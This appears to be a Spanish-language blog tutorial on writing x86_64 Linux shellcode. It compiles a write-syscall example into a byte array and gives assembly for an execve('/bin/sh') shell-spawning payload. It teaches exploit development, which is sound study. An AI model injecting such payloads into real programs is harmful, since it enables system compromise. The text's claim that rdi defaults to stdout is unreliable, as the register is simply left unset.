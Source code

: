 **Ojo**

Te podras dar cuenta que no se usa el registro rdi, que para write, es usado para el descriptor de archivos, y diras: "Como es posible eso, si en la estructura de write se debe de establecer el registro rdi en 1, de hecho y [aca](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) lo dice". Y pues no necesariamente, por que el descriptor de archivos ya tiene establecido por defecto el valor 1 para stdout.


Ahora procedemos a compilar: ```nasm -f elf64 shellcode.asm```

Esto nos dejara un archivo .o el cual debemos de enlazar: ```ld -m elf_x86_64 -s -o write shellcode.o```

Estos dos comandos nos dejo un binario elf, el cual si ejecutamos, se ejecutara la syscall write, y mostrara el texto:

![](/assets/img/shellcode/1.png)

Y a toda madre, funciona, pero eso no es una shellcode, es un binario elf, y si lo vemos en un editor hexadecimal podemos ver la shellcode en hexadecimal

![](/assets/img/shellcode/2.png)

Asi que para pasarla a un byte array, que seria la forma en la que se inyectan, primero usaremos

- ```objcopy -j .text -O binary shellcode.o write.bin``` para generar un archivo .bin

- ```hexdump -v -e '"\\" 1/1 "x%02x"' write.bin; echo``` para imprimir el byte array

Y ahora si, esto si es una shellcode a como estamos acostumbrados a verlas:

```
\xb8\x01\x00\x00\x00\x48\xbe\x4e\x61\x7a\x75\x6e\x61\x00\x00\x56\x48\x89\xe6\xba\x06\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\x0f\x05
```

## Shellcode para conseguir una shell

Ahora usaremos execve para poder ejecutar /bin/sh, y que consigamos una shell, el codigo es el siguiente:


```
section .text
    global _start

_start:

    xor rdx, rdx
    push rdx
    mov rax, 0x68732f2f6e69622f
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    xor rax, rax
    mov al, 0x3b
    syscall
```